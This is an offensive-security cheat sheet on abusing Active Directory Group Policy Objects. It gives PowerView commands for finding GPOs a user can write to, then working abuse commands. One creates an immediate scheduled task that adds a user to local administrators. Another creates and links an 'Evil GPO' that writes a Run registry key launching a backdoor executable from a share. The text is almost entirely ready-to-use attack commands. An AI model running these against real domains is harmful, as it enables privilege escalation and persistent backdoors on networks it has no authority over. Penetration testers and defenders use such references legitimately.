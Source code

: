 
### GPO Delegation

```
// check for our user permissions on GPO from powerview
Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
// find that our user has WriteProperty,WriteDACL,WriteOwner on ObjectDN of GPO ID

// search for misconfigured GPOs, we can chain multiple cmdlets from PowerSploit
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}

// Computers with a Given Policy Applied
Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}

// Policies Applied to a Given Computer
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName

// OUs with a Given Policy Applied
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```

##### Abuse GPO - New-GPOImmediateTask

create an immediate scheduled task through the GPO. 

```
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
//The above will add our user spotless to the local `administrators` group
```
 
##### Abuse GPO - GroupPolicy module

```
// You can check to see if the GroupPolicy module is installed 
Get-Module -List -Name GroupPolicy | select -expand ExportedCommands 
// In a pinch, you can install it
Install-WindowsFeature –Name GPMC //as a local admin.

// Create new GPO and link it with the OU Workstrations
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"

// Make the computers inside Workstrations create a new reg key that will execute a backdoor
// Search a shared folder where you can write and all the computers affected can read

Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString

// This payload, after the GPO is updated, will need also someone to login inside the computer.
```
##### Abuse GPO - SharpGPOAbuse
